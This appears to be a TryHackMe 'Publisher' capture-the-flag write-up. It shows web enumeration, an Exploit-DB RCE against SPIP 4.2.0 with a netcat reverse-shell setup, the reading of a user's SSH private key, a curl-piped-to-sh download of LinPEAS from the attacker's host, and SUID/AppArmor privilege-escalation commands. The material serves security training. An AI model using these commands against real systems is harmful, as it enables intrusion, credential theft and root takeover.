 # Publisher

A writeup for the room [Publisher](https://tryhackme.com/r/room/publisher) on TryHackMe.

> Test your enumeration skills on this boot-to-root machine.

<Image src={require("./logo.webp").default} height="256" />

## What is the user flag?

### Nmap scan

We can start by scanning the target with Nmap:

```sh
nmap -sS TARGET_IP
```

The scan reveals two open ports: 22 (SSH) and 80 (HTTP).

<Image src={require("./1-1-nmap.webp").default} />

### Web server enumeration

We can start by visiting the web server at `http://TARGET_IP`. The page is a simple blog with a few posts.

There isn't much to see here and most of the links are dead.

However, we can notice that in many places there are references to `SPIP`, which is a content management system (CMS).

<Image src={require("./1-2-home.webp").default} />

We can use `gobuster` to enumerate the web server for hidden directories.

```sh
gobuster dir -u http://TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

The scan reveals a few interesting directories, including `/images` and `/spip`.

<Image src={require("./1-3-gobuster.webp").default} />

<Image src={require("./1-4-images.webp").default} />

<Image src={require("./1-5-spip.webp").default} />

### Searching for the SPIP version

Even with the previous enumeration, we didn't find anything interesting.

However, now we are sure that the website is running SPIP and there might be a vulnerability in the version used.

There are multiple ways to find the version of SPIP of the website.
A direct approach is to look at the source code of the page, which reveals the version `4.2.0` inside a meta tag.

<Image src={require("./1-6-source.webp").default} />

### Exploiting vulnerabilities in SPIP 4.2.0

We can search for vulnerabilities in SPIP 4.2.0 on the internet.

The exploit 51536 seems to be a good candidate for this version allowing remote code execution.

[https://www.exploit-db.com/exploits/51536](https://www.exploit-db.com/exploits/51536)

We can download the exploit and run it with the target IP. To avoid issues with special characters, we can use a base64 encoded command.

```bash
# Testing the exploit
python3 exploit.py -u http://TARGET_IP/spip -c "sleep 5"

# Running the lister in another terminal
nc -lvnp 1337

# Running a rev shell by encoding the command in base64
REV_SHELL=$(echo "" | base64)
echo $REV_SHELL
python3 exploit.py -u http://TARGET_IP/spip -c "echo $REV_SHELL | base64 -d | bash"
```

<Image src={require("./1-7-exploit-test.webp").default} />

<Image src={require("./1-8-exploit.webp").default} />

### Getting the first flag

Once inside the server, we can navigate to the home directory of the user `thing` where we can find the ssh credentials and the user flag.

```sh
cat /home/thing/user.txt
cat /home/thing/.ssh/id_rsa
ssh thing@TARGET_IP
```

<Image src={require("./1-9-revshell.webp").default} />

## What is the root flag?

### Analyzing with LinPEAS

Now that we are inside the server, we can run LinPEAS to find potential privilege escalation vectors.

Be careful, there is no external connection from the server and most of the folder are not writable.

A simple solution is to transfer the script to the server using a webserver and then run it directly on the target.

```sh
# On your machine
python3 -m http.server 8000

# On the target machine
curl http://YOUR_IP:8000/linpeas.sh | sh | less -R
```

We can notice that there is a binary run_container with SUID set and that also AppArmor is enabled.

Looking to our current session, we can see that we are in a container and we are not running bash but ash.

This is a shell with limited functionalities based on the AppArmor profile.

<Image src={require("./2-1-suid.webp").default} />

### Method 1: Exploiting the AppArmor profile

We can try to look at the AppArmor profile to see if there are any restrictions that we can exploit.

<Image src={require("./2-2-apparmor-profile.webp").default} />

Even if we don't have read permission on /opt/, we can still read internal files like /opt/run_container.sh.

Also, there is no rule that prevents us from writing to /var/tmp, so we can use this folder to write new files.

The script is based on docker, so if we change the PATH we can set up a new docker script to run a reverse shell.

The new run_container.sh will then run this custom docker binary which will allow us to get a root shell and then the last flag.

```sh
cd /var/tmp
touch docker
echo "/bin/bash -p" > docker
chmod +x docker
PATH=/var/tmp:$PATH run_container
```

<Image src={require("./2-3-apparmor-exploit.webp").default} />

### Method 2: Exploiting the SUID binary directly

Since run_container.sh is writable by us, we can modify it to run a reverse shell.

However, we need to escape the AppArmor profile by running a bash shell directly.

One possible solution is to run the `ldd` command to find the dynamic linker used by the binary.
Then, by calling the same linker directly, we can run bash externally and modify the script by adding the command to read the root flag.

```sh
ldd /opt/run_container
/lib64/ld-linux-x86-64.so.2 /bin/bash -c 'echo "cat /root/root.txt" >> /opt/run_container.sh'
run_container
```

<Image src={require("./2-4-bash-append-1.webp").default} />

<Image src={require("./2-5-bash-append-2.webp").default} />

Once done, we simply have to run the binary and get the root flag.

<Image src={require("./2-6-bash-exploit.webp").default} />
